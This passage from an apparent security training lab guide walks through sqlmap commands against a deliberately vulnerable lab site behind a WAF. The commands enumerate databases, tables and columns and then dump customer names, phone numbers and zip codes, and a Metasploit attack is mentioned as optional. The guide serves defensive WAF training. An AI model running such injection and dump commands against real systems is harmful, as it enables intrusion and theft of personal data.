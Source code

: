 SQLMap
======================

   a. (Kali) Repeat SQL Injection from previous lab

      i.   # cd /root/Agility/sqlmap

      ii.  # sqlmap -u
           http://hackazon-waf.f5agility.com/product/view?id=51 -- dbs

      iii. # sqlmap -u
           http://hackazon-waf.f5agility.com/product/view?id=51 -D
           hackazon --tables

      iv.  # sqlmap -u
           http://hackazon-waf.f5agility.com/product/view?id=51 -D
           hackazon -T tbl\_customer\_address --columns

      v.   # sqlmap -u
           http://hackazon-waf.f5agility.com/product/view?id=51 -D
           hackazon -T tbl\_customer\_address -C full\_name,phone,zip
           --dump

   b. Observe impact

      i. Is site available?

4. (Optional) Attack via Metasploit

-  Repeat steps in previous Metasploit lab.

-  Don’t forget to update the URL for WAF!
